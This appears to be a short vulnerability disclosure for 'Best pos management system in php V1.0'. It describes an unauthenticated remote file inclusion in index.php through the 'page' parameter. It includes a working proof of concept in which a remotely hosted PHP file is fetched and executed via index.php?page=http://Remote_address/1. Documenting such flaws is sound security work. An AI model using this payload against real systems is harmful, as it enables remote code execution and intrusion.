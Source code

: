 # Best pos management system in php V1.0 - Remote files containing vulnerabilities can lead to arbitrary code execution

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/index.php?page=   ----->    'page' can control some page parameters

Vulnerability location: index.php in the root directory of the website.

![1](/img/Best-pos-management-system-in-php/1.png)

Create 1.php on the remote server with the following content and enable the HTTP service

```php
<?php
phpinfo();
```

![2](/img/Best-pos-management-system-in-php/2.png)

Send a GET request to the target server with the following attack payload

Payload:index.php?page=http://Remote_address/1

![3](/img/Best-pos-management-system-in-php/3.png)
![4](/img/Best-pos-management-system-in-php/4.png)

Successfully executed phpinfo function!
